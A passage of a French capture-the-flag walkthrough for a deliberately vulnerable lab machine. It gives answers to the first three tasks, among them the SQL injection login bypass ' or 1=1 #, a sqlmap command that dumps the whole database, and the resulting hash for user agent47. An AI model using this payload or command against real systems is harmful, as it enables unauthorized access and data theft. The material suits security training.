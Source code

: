 *Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!*

[IP_VPN] : 10.18.94.166
[IP_Machine] : 10.10.69.255


# Task 1 : Deploy the vulnerable machine 

## What is the name of the large cartoon avatar holding a sniper on the forum?
Télécharger l'image principale. 

la charger sur google et la réponse s'affiche 

**Agent 47**

# Task 2 : Obtain access via SQLI

## When you've logged in, what page do you get redirected to?

Login : ' or 1=1 # 
redirection : http://10.10.69.255/portal.php

**portal.php**

# Task 3 : Using SQLMap

## In the users table, what is the hashed password?
Lancer burp, faire une recherche simple 

Enregistrer la requête dans un fichier 

lancer sqlmap avec la commande suivante : 
``` sqlmap -r request.txt --dbms=mysql --dump ```

-r Permet de récupérer la requête sauvegardée en amont
--dbms Permet de décrire le type de BDD utilisée 
--dump permet de dumper entièrement les données de la BDD

``` Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

```
